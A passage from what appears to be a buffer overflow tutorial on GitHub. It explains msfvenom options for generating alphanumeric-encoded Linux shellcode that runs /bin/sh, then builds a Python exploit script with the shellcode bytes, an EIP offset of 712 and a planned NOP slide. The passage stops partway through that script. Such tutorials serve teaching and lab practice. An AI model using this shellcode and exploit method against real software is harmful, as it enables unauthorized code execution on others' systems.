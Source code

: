       -p linux/x86/exec 
          specifies the payload to generate, in our case its just a payload to execute a specfied command

      -c CMD=/bin/sh
          specfie we want to execute the command to run /bin/sh

      AppendExit=true
          tell the program we want to include extra instructions to exit the program cleanly (Just Helps with stopping problems)

      -e x86/alpha_mixed
          This An Encoder, it encodes the payload using only letters and numbers (Stops \x00 and other bad chars which can break the shellcode)

      -f python
          display the output as python code for copying
![6th](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/1d31fd91-9dc5-4c98-bfae-bb7455c25728)

and perfect we have shellcode to use

Add this to your python script so it looks like

    import sys
    
    buf =  b""
    buf += b"\x89\xe0\xd9\xc6\xd9\x70\xf4\x5a\x4a\x4a\x4a\x4a"
    buf += b"\x4a\x4a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43"
    buf += b"\x43\x37\x52\x59\x6a\x41\x58\x50\x30\x41\x30\x41"
    buf += b"\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42"  ### SHELL CODE TO RUN execve(/bin/sh)
    buf += b"\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x56"
    buf += b"\x51\x49\x59\x59\x67\x79\x71\x6e\x50\x56\x6b\x42"
    buf += b"\x48\x56\x4f\x44\x33\x75\x38\x35\x50\x51\x78\x34"
    buf += b"\x6f\x73\x52\x73\x59\x70\x6e\x4c\x49\x6a\x43\x4a"
    buf += b"\x6d\x6d\x50\x55\x61\x4b\x6b\x42\x4a\x45\x51\x32"
    buf += b"\x78\x48\x4d\x6b\x30\x41\x41"


Now Just to add some room for error we will create a NOP Slide, what this is, is just a series of no operation commands
so we have a landing pad for the EIP which will then go down the no operation slide till it reaches our shellcode to execute
So Update Your Python script to reflect this

Also We Need To Add a Padding Of Bytes So we Can Reach the EIP register We Can Simply just subtract the Offset By the length of the Nop and the Length Of the Shellcode

    import sys
    ## EIP OFFSET = 712
    
    buf =  b""
    buf += b"\x89\xe0\xd9\xc6\xd9\x70\xf4\x5a\x4a\x4a\x4a\x4a"
    buf += b"\x4a\x4a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43"
    buf += b"\x43\x37\x52\x59\x6a\x41\x58\x50\x30\x41\x30\x41"
    buf += b"\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42"  ### SHELL CODE TO RUN execve(/bin/sh)
    buf += b"\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x56"
    buf += b"\x51\x49\x59\x59\x67\x79\x71\x6e\x50\x56\x6b\x42"
    buf += b"\x48\x56\x4f\x44\x33\x75\x38\x35\x50\x51\x78\x34"
    buf += b"\x6f\x73\x52\x73\x59\x70\x6e\x4c\x49\x6a\x43\x4a"
    buf += b"\x6d\x6d\x50\x55\x61\x4b\x6b\x42\x4a\x45\x51\x32"
    buf += b"\x78\x48\x4d\x6b\x30\x41\x41"
